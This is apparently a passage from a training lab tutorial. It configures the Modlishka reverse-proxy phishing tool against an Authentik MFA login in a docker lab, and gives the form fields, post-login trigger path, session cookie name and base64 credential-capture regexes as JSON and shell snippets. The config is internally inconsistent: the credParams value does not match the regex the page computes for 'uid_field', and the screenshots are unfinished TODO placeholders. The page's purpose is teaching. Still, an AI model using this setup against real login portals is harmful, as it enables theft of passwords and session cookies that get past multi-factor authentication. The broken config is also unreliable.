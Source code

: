 +++
title = "Reconfigure Modlishka With MFA Authentication Provider"
weight = 75
+++

Let's go through the auth flow to determine what the username and password fields when conducting a normal login.

TODO: Screenshots

We can see that the fields are `uid_field` and `password`.

Now we need to find a URL path that is only hit when the target successfully logs in.

TODO: Screenshots

Lets use `/if/user`.

Now we need to determine the session cookie.

TODO: Screenshots

Looks like `authentik_session` maybe the one we are after. We are lucky they used descriptive names and very few cookies.

We have all the required information to reconfigure Modlishka.

We'll start by updating the `"target"` in Modlishka's config.

```json
  "target": "auth.target.docker:9000",
```

Now we need to create some regular expressions to match the username and password fields.

```bash
echo -n '"uid_field":\s*"(.+?)"' | base64
echo -n '"password":\s*"(.+?)"' | base64

```
We'll join these two values together with a comma, then update the `"credParams"` configuration value.

```
InVpZF9maWVsZCI6XHMqIiguKz8pIg==,InBhc3N3b3JkIjpccyoiKC4rPyki
```

```json
  "credParams": "InVzZXJuYW1lIjpccyoiKC4rPyki,InBhc3N3b3JkIjpccyoiKC4rPyki"
```

Finally, we need to update the `"terminateTriggers"` and `"terminateRedirectUrl"`.

```json
  "terminateRedirectUrl": "https://uvcyber.com/?phished",
  "terminateTriggers": "/if/user",
```

